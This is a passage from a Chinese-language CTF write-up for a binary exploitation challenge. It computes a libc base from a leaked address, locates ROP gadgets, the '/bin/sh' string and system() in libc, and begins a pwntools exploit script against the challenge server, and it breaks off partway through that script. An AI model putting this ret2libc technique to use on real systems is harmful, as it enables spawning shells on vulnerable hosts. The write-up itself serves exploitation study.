 相減後就可以拿到 `offset` 
```bash
$ python -c "print(hex(0x7f4e1ef5d643-0x7f4e1ed59000))"
0x204643
```
> 之後用 leak 出的 address 減 `offset` 就可以算出 libc 的 base

最後再去 libc 裡面找 `gadget`
```bash
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000002a873 : pop rdi ; pop rbp ; ret
0x0000000000158748 : pop rdi ; pop rbx ; pop r12 ; pop r13 ; pop r14 ; pop rbp ; ret
0x000000000010f75b : pop rdi ; ret # ✅
```

```bash
$ strings -a -t x libc.so.6 | grep "/bin/sh"
 1cb42f /bin/sh
```

```bash
$ ROPgadget --binary libc.so.6 --only "ret"
...
0x000000000002882f : ret
...
```

```bash
$ readelf -s libc.so.6 | grep system
  1050: 0000000000058740    45 FUNC    WEAK   DEFAULT   17 system@@GLIBC_2.2.5 # ✅
   534: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS system.c
   535: 00000000000582c0   878 FUNC    LOCAL  DEFAULT   17 do_system
  3886: 0000000000178180    98 FUNC    LOCAL  DEFAULT   17 __GI_svcerr_systemerr
  4802: 0000000000178180    98 FUNC    LOCAL  DEFAULT   17 __EI_svcerr_systemerr
  8117: 0000000000058740    45 FUNC    GLOBAL DEFAULT   17 __libc_system
  8751: 0000000000058740    45 FUNC    WEAK   DEFAULT   17 system
 10242: 0000000000178180    98 FUNC    GLOBAL DEFAULT   17 svcerr_systemerr[...]
```

exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mr---ropot.ctf.pearlctf.in", 30009)

    return r


def main():
    r = conn()
    # good luck pwning :)
    leak_offset = 0x204643
    r.sendlineafter(delim=b"3. Exit", data=b"1")
    
```